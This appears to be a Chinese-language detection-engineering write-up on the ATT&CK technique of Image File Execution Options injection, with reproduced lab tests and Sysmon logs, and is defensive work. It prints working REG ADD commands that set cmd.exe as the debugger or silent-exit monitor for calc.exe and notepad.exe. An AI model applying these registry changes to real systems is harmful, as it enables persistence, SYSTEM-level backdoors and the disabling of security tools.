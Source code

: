 # T1546-012-win-事件触发执行-图片文件执行选项注入

## 来自ATT&CK描述

攻击者可以通过执行由图像文件执行选项 (IFEO) 调试器触发的恶意内容来建立持久性或权限提升。IFEO使开发人员能够将调试器附加到应用程序。创建进程时，应用程序的IFEO中的调试器将附加到应用程序的名称之前，从而有效地在调试器下启动新进程（例如，`C:\dbg\ntsd.exe -g notepad.exe`）。

IFEO可以通过注册表直接设置，也可以通过GFlags工具在Global Flags中设置。IFEO表示为`Debugger`注册表中的值，在那里是附加调试器的二进制文件`HKLM\SOFTWARE{{\Wow6432Node}}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\``<executable>`

IFEO还可以在指定程序静默退出（即被自身或第二个非内核模式进程提前终止）时启动任意监控程序。与调试器类似，静默退出监控可以通过GFlags或通过直接修改 IFEO和静默进程退出注册表值来启用`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\`。

与Accessibility Features类似，在 Windows Vista 和更高版本以及 Windows Server 2008或更高版本上，可以修改注册表项，将“cmd.exe”或其他提供后门访问的程序配置为可访问性程序的“调试器” （例如：utilman.exe）。修改注册表后，在使用键盘或与远程桌面协议连接时在登录屏幕上按适当的组合键将导致“调试器”程序以 SYSTEM 权限执行。

与Process Injection类似，这些值也可能被滥用，通过利用恶意可执行文件在计算机上不同进程的上下文中加载和运行来获得权限提升。安装IFEO机制还可以通过持续触发调用来提供持久性。

恶意软件还可能通过注册无效调试器来使用IFEO来减少防御，这些调试器重定向并有效地禁用各种系统和安全应用程序。

## 测试案例

### 测试1 IFEO Add Debugger

测试命令，用命令提示符运行，需要管理员权限（root/admin）：

```yml
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

target_binary：C:\Windows\System32\calc.exe
payload_binary：C:\Windows\System32\cmd.exe
清理命令：

```yml
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```

### 测试2 IFEO Global Flags

测试命令，用命令提示符运行，需要管理员权限（root/admin）：

```yml
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

target_binary：C:\Windows\System32\notepad.exe
payload_binary：C:\Windows\System32\cmd.exe
清理命令：

```yml
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1

reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1

reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```

## 检测日志

Windows Sysmon日志

## 测试复现

### 测试1 IFEO Add Debugger

```yml
C:\Users\Administrator.ZHULI>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\calc.exe" /v Debugger /d "C:\Windows\System32\cmd.exe"
操作成功完成。

C:\Users\Administrator.ZHULI>reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\calc.exe" /v Debugger /f >nul 2>&1
```

### 测试2 IFEO Global Flags

```yml
C:\Users\Administrator.ZHULI>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
操作成功完成。

C:\Users\Administrator.ZHULI>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\C:\Windows\System32\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
操作成功完成。

C:\Users\Administrator.ZHULI>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\C:\Windows\System32\notepad.exe" /v MonitorProcess /d "C:\Windows\System32\cmd.exe"
操作成功完成。

C:\Users\Administrator.ZHULI>reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\notepad.exe" /v GlobalFlag /f >nul 2>&1

C:\Users\Administrator.ZHULI>reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\C:\Windows\System32\notepad.exe" /v ReportingMode /f >nul 2>&1

C:\Users\Administrator.ZHULI>reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\C:\Windows\System32\notepad.exe" /v MonitorProcess /f >nul 2>&1
```

## 测试留痕

### 测试1 ## IFEO Add Debugger

```yml
#进程创建事件，EventID：1      

Process Create:

RuleName: technique_id=T1112,technique_name=Modify Registry

UtcTime: 2022-01-13 07:34:03.518

ProcessGuid: {78c84c47-d5eb-61df-c829-000000000800}

ProcessId: 3704

Image: C:\Windows\System32\reg.exe

FileVersion: 10.0.17763.1 (WinBuild.160101.0800)

Description: Registry Console Tool

Product: Microsoft® Operating System

Company: Microsoft Corporation

OriginalFileName: reg.exe

CommandLine: REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\calc.exe" /v Debugger /d "C:\Windows\System32\cmd.exe"

CurrentDirectory: C:\Users\Administrator.ZHULI\

User: ZHULI\Administrator

LogonGuid: {78c84c47-f665-61db-95da-440100000000}

LogonId: 0x144DA95

TerminalSessionId: 3

IntegrityLevel: High

Hashes: SHA1=429DF8371B437209D79DC97978C33157D1A71C4B,MD5=8A93ACAC33151793F8D52000071C0B06,SHA256=19316D4266D0B776D9B2A05D5903D8CBC8F0EA1520E9C2A7E6D5960B6FA4DCAF,IMPHASH=BE482BE427FE212CFEF2CDA0E61F19AC

ParentProcessGuid: {78c84c47-d076-61df-ec28-000000000800}

ParentProcessId: 5864

ParentImage: C:\Windows\System32\cmd.exe

ParentCommandLine: "C:\Windows\system32\cmd.exe" 

ParentUser: ZHULI\Administrator

#注册表修改事件，EventID：13
Registry value set:

RuleName: technique_id=T1546.012,technique_name=Image File Execution Options Injection

EventType: SetValue

UtcTime: 2022-01-13 07:34:03.518

ProcessGuid: {78c84c47-d5eb-61df-c829-000000000800}

ProcessId: 3704

Image: C:\Windows\system32\reg.exe

TargetObject: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\calc.exe\Debugger

Details: C:\Windows\System32\cmd.exe

User: ZHULI\Administrator
```

### 测试2 IFEO Global Flags

```yml
#进程创建事件不再列举，重点关注一下注册表更改信息，事件ID:13
Registry value set:

RuleName: technique_id=T1546.012,technique_name=Image File Execution Options Injection

EventType: SetValue

UtcTime: 2022-01-13 07:42:06.705

ProcessGuid: {78c84c47-d7ce-61df-122a-000000000800}

ProcessId: 6828

Image: C:\Windows\system32\reg.exe

TargetObject: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\notepad.exe\GlobalFlag

Details: DWORD (0x00000200)

User: ZHULI\Administrator
```

## 检测规则/思路

### 建议

这种类型的攻击技术无法通过预防性控制轻松缓解，因为它基于对系统功能的滥用。

## 参考推荐

MITRE-ATT&CK-T1546-012

<https://attack.mitre.org/techniques/T1546/012>

Atomic-red-team-T1546-012

<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.012/T1546.012.md>
